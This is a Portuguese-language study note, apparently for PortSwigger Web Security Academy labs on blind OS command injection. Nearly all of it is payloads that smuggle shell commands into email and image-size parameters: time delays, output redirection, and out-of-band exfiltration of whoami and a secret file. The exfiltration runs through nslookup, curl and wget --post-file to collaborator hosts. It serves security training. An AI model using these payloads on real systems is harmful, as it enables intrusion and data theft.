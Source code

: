 # OS Command Injection

Probabilidade: $${\color{red}alta}$$.

Normalmente o Command Injection aparece nos parâmetros que envolvem e-mail, como na feature the submeter feedback.

Aprenda alguns comandos além do que é ensinado nos laboratórios para exfiltrar dado, visto que nem sempre o comando que você testa primeiro existe ou funciona no alvo.

Algumas variações:
```
nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN

curl+burp.oastify.com?c=`whoami`

nslookup+-q=cname+$(whoami).burp.oastify.com

$(curl $(cat /home/carlos/secret).OASTIFY.COM)

/usr/bin/wget --post-file /home/carlos/secret https://collaborator/
```

<br>

## Laboratórios

**Blind OS Command Injection with Time Delays**
```
email=x||ping+-c+10+127.0.0.1||
```

<br>
<br>

**Blind OS Command Injection with Output Redirection**

Tem um diretório passível de escrita em `/var/qwww/images/`.
```
||+whoami+>+/var/www/images/whoami.txt||
```

Acesse o arquivo em: `/image?filename=whoami.txt`.

<br>
<br>

**Blind OS Command Injection with Out-of-Band Interaction**
```
email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||
```

<br>
<br>

**Blind OS Command Injection with Out-of-Band Data Exfiltration**
```
email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||
```

<br>
<br>

**Admin Panel ImgSize Command Injection**
```
/admin-panel/admin_image?image=/blog/posts/50.jpg&ImageSize="200||nslookup+$(cat+/home/carlos/secret).<collaborator>%26"  
```

Outra opção:
```
ImgSize="`/usr/bin/wget%20--post-file%20/home/carlos/secret%20https://collaborator/`"
```
